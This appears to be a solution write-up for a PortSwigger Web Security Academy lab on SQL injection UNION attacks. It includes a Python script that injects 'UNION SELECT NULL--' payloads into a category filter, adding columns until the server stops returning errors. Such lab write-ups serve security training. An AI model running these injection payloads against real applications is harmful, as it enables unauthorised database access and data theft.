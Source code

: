 ```yaml
---
title:
  SQL injection UNION attack, determining the number of columns returned by the
  query
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns/">
3. SQL injection UNION attack, determining the number of columns returned by the query</a>

Attacking a web application with a SQL injection vulnerability, we're asked to
determine the number of columns in the table with the vulnerable SELECT clause
using UNION. We use a techinque with UNION SELECT NULL...-- to iteratively brute
force the number of columns. If we receive a 500 response from the server, we
know that the number of columns is too low. We continue to increase the number
of colums until we receive a 200 response - indicating the number of columns
present in the vulnerable table.

Solution:

```python
# usage:
# python3 3.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")

    def solve(self) -> None:
        s = requests.Session()

        i = 1
        r = s.get(f"{self.url}/filter?category=Accessories'+UNION+SELECT+NULL--")
        while r.status_code == 500:
            i += 1
            nulls = ["NULL"] * i
            r = s.get(
                f"{self.url}/filter?category=Accessories'+UNION+SELECT+{','.join(nulls)}--"
            )

        print(f"Number of columns: {i}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
